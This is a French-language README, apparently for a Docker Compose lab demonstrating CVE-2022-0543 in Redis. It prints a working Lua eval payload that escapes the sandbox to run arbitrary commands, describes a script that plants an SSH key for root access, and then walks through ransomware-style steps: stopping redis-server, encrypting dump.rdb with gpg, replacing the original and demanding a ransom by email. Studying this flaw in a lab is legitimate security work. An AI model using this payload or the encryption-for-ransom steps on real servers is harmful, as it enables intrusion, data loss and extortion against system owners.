 # CVE-2022-0543
La démo utilise Docker Compose pour sa mise en place.

Dans le fichier docker-compose, il existe un conteneur appelé "redis-server" qui joue deux rôles : il lance le serveur Redis et un serveur SSH pour écouter les connexions SSH.

Ce conteneur représente une machine serveur locale ou dans un fournisseur de services cloud.

Pour exploiter cette faille, partons du fait que l'attaquant a accès au "redis-server" grâce à l'outil "redis-cli". En utilisant "redis-cli", nous pouvons exécuter des commandes sur la machine hôte en tant qu'utilisateur (Linux) ayant lancé le serveur Redis.

La faille nous donne un accès complet à la machine, mais pour des raisons de simplicité, la première manipulation sera d'obtenir un accès SSH à cette machine, même si techniquement cela ne serait pas nécessaire, car toutes les commandes pourraient être exécutées depuis "redis-cli" grâce au payload suivant :

``` shell
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("VOTRE COMMANDE"); local res = f:read("*a"); f:close(); return res' 0
```

# Dans un terminal
``` shell
docker-compose up
```


# Dans un autre terminal

``` shell
docker-compose run attacker
./exploit.sh
```
Le fichier `exploit.sh` va créer une clé SSH, mettre la clé publique dans le `redis-server` grâce à la faille et à `redis-cli`, puis se connecter via SSH.

Une fois cette commande exécutée, nous avons obtenu un accès SSH à la machine, et en plus de cela, nous sommes root car le serveur Redis a été lancé en tant que root. 
Nous pouvons examiner les processus en cours d'exécution en utilisant la commande `ps -ef`. Un attaquant pourrait, par exemple, chercher à effectuer un déni de service sur l'application en tuant le processus `redis-server`.

La manipulation que nous allons effectuer est similaire à celle d'un rançongiciel. Nous allons chiffrer la base de données. Une fois que nous avons accès à la machine, il faut se déplacer vers le dossier /var/lib/redis. Dans ce dossier, vous trouverez un fichier `dump.rdb`, qui représente les sauvegardes de Redis. Pour cette démo, nous avons utilisé des données exemples d'utilisateurs.

Nous allons maintenant chiffrer cette base de données.

``` shell
kill PROCESS_REDIS_SERVER # Arretons le processus redis-server. 
gpg -c dump.rdb # chiffront la base des donnees
# La commande crée un fichier dump.rdb.gpg
mv dump.rdb.gpg dump.rbd
redis-server & 
```

Lorsque vous relancez `redis-server`, vous verrez qu'un message d'erreur se produira lorsqu'il tentera de charger la base de données. Maintenant, il suffirait de demander une rançon par e-mail, par exemple.




